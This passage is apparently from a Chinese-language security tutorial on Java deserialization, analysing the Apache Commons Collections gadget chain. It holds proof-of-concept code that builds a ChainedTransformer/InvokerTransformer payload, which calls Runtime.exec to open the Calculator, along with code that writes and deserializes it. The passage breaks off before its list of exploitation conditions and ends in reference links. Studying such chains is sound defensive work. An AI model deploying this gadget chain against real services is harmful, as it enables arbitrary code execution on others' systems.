 ```java
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

##### 构造序列化恶意payload的部分

恶意代码的本质是调用Runtime() 执行一段系统命令：

```java
((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("open /Applications/Calculator.app")
```

```java
public static Object Reverse_Payload() throws Exception {
        Transformer[] transformers = new Transformer[] {
            	//ConstantTransformer可以将待变换的对象，变为一个常量  返回iConstant属性
            	//iConstant属性 --> class java.lang.Runtime
            	//此处object被赋值为Runtime.class
                new ConstantTransformer(Runtime.class),
            	//new InvokerTransformer.... 都为InvokerTransformer对象-->形成一个Transformer的数组--->transformerChain一次触发给子的transform方法
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /Applications/Calculator.app" }) };
    	//transformerChain传入Transformer数组，再使用for循环调用Transformer数组中的transform()方法 参数为object
    	//object = iTransformers[i].transform(object)
        Transformer transformerChain = new ChainedTransformer(transformers);
```

在此处iArgs 分别为 getRuntime null "open /Applications/Calculator.app"

iMethodName分别为getMethod invoke exec

##### 利用漏洞

存在反射机制和transformer结合可以导致任意代码执行的情况，但是要找到地方利用此漏洞。

在进行反序列化的时候会调用ObjectInputStream类的readObject()方法 ，如果反序列化的类重写了readObject()，那么会优先调用重写的的readObject()。

那么总结一下，利用漏洞的两个条件：


[sczyh30]: https://www.sczyh30.com/posts/Java/java-reflection-1/
[反序列化工具ysoserial分析]: https://wps2015.org/drops/drops/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%B7%A5%E5%85%B7ysoserial%E5%88%86%E6%9E%90.html
[Seebug]: https://paper.seebug.org/584/
[腾讯安全应急响应中心]: https://security.tencent.com/index.php/blog/msg/97
[漏洞盒子]: https://www.vulbox.com/knowledge/detail/?id=11
[sczyh30]: https://www.sczyh30.com/posts/Java/java-reflection-1/